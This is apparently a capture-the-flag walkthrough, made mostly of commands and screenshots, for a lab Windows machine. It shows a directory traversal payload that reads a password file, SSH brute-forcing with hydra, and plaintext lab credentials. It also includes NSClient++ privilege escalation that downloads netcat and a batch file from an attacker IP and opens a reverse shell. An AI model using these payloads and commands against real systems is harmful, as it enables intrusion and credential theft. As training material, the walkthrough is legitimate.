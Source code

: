 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
```
![image](https://github.com/user-attachments/assets/a313103a-0e86-4faa-8270-9879e148cc2e)

```
ftp 10.10.10.184
anonymous:anonymous
```
![image](https://github.com/user-attachments/assets/0ff21dc1-81f9-4f12-bee4-635f1a249ade)

![image](https://github.com/user-attachments/assets/f43fd30d-1e25-4c7b-86e7-464d674ea2ed)

```
http://10.10.10.184
```
![image](https://github.com/user-attachments/assets/f6f1c705-0907-4773-8db1-84e9ef8c1649)

```
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
```
![image](https://github.com/user-attachments/assets/f1710fe7-fdf5-40db-912f-6a911580e317)

![image](https://github.com/user-attachments/assets/c04dfb6a-a1bb-4a8c-964b-5cc4b7e7fee5)

```
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
```
![image](https://github.com/user-attachments/assets/0d9f6310-4342-4b69-a5a1-8f1eec0b20de)

![image](https://github.com/user-attachments/assets/b489f478-226d-4977-a643-207796c8fa52)

```
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
![image](https://github.com/user-attachments/assets/f9cf7130-e0dc-4694-9997-a0d9b03b350f)

```
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
```
![image](https://github.com/user-attachments/assets/f17637bf-6d86-4854-a606-d7df15feae19)

![image](https://github.com/user-attachments/assets/3e6601e3-5717-42c0-808b-d9bb2fb60085)

```
ssh Nadine@10.10.10.184
L1k3B1gBut7s@W0rk
```
![image](https://github.com/user-attachments/assets/c149b9a4-6691-4919-8a4a-45145a226671)

```
Powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/daa65e49-b655-46e7-97c7-491e927bd449)

```
searchsploit 'NSClient++'
```
![image](https://github.com/user-attachments/assets/62cd7886-2c6b-4f61-a0bf-2416204811e0)

```
cd "C:\Program Files\NSClient++\“
ew2x6SsGTxjRwXOT
```
![image](https://github.com/user-attachments/assets/017d2e31-134e-4d0f-94f8-d0406f14dd40)

```
https://www.exploit-db.com/exploits/46802
```
![image](https://github.com/user-attachments/assets/d97fcdb8-7f80-4c7d-9679-ad5618af7495)


```
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```
![image](https://github.com/user-attachments/assets/6f0008e4-794f-4bb3-a9f0-c23c5364cee0)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
```
![image](https://github.com/user-attachments/assets/41f170fd-d6b7-42bf-b5e7-dd5388417da5)

![image](https://github.com/user-attachments/assets/f6f02615-74d2-43c6-b446-07f2cd00f4d2)

```
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
```
![image](https://github.com/user-attachments/assets/5e3f3c3e-471a-4802-a430-15906f904a7b)

![image](https://github.com/user-attachments/assets/d7796056-a14b-478e-b774-62dcbd600a69)

```
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
```
![image](https://github.com/user-attachments/assets/11e195a2-8a1a-4ee5-a50c-0344f3a8b726)


```
/settings/scheduler/schedules/df_run
Interval
10s
Command
df
```
![image](https://github.com/user-attachments/assets/ea4e2b44-7b07-4168-a276-a2415e865b7f)

![image](https://github.com/user-attachments/assets/135208e6-7467-40bd-b1ec-0325e52e077d)

![image](https://github.com/user-attachments/assets/f0b058aa-a573-44bd-9426-3ae7c18ae066)

```
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```
![image](https://github.com/user-attachments/assets/781c07d4-dde6-46e9-8f0d-cddb88a83974)
